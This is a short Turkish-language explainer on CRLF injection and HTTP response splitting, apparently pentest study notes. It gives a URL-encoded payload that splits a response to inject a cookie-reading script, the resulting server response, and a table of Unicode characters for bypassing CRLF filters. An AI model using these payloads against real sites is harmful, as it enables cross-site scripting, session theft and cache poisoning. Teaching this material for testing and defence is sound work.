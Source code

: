 # CRLF Nedir?
CRLF Injection, saldırganın HTTP başlıklarına CRLF karakterleri (\r\n) enjekte edebilmesi durumunda ortaya çıkar. Bu durum, HTTP Response Splitting'e yol açabilir. Bir web uygulaması, HTTP başlıklarını oluştururken kullanıcı girdisini kullanıyorsa. Saldırgan, bu girdiyi manipüle ederek ek başlıklar enjekte edebilir veya HTTP yanıtını bölebilir. Bu durum şu güvenlik risklerine yol açabilir:

- Cross-Site Scripting (XSS): İkinci yanıta kötü amaçlı script ekleme.
- Cache Poisoning: Yanlış içeriğin önbelleğe alınmasını sağlama.
- Header Manipulation: Başlıkları değiştirerek kullanıcıları veya sistemleri yanıltma.

# Cross-Site Scripting
CRLF injection ile en kolay istismar yöntemi, sayfanın gövdesini (body) yeniden yazmaktır. Bu teknik javascript kodu çalıştırmak için kullanılabilir.

Örnek istek:
```url
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Sunucu yanıtı:
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 39
 
<script>alert(document.cookie)</script>
```

# Filter Bypass
RFC 7230, çoğu HTTP başlık alanı değerinin yalnızca US-ASCII karakter setinin bir alt kümesini kullanması gerektiğini belirtir.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

# HTTP/2 ve HTTP/3 Neden Daha Güvenli
- HTTP/2 ve HTTP/3, header’ları binary frame formatında taşır.
- \r\n gibi ASCII karakter dizileriyle header sonlandırma mantığı yoktur.
- Bu yüzden klasik CRLF injection ile header yapısını bozamazsın.
- Ancak HTTP/1.1 fallback aktifse, hala risk vardır.

Referanslar:
- https://www.insecure.in/crlf-injection-attack
- https://www.invicti.com/learn/crlf-injection/
- https://playbook.sidthoviti.com/web-app-pentesting/crlf-injection
